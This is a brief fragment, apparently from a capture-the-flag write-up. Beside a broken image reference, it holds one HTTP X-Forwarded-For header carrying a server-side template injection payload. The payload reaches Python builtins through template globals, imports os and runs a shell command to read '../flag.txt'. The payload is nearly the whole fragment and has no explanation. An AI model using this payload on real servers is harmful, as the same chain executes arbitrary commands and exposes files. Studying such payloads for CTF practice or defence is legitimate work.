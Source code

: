 `X-Forwarded-For: {{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat ../flag.txt').read() }}`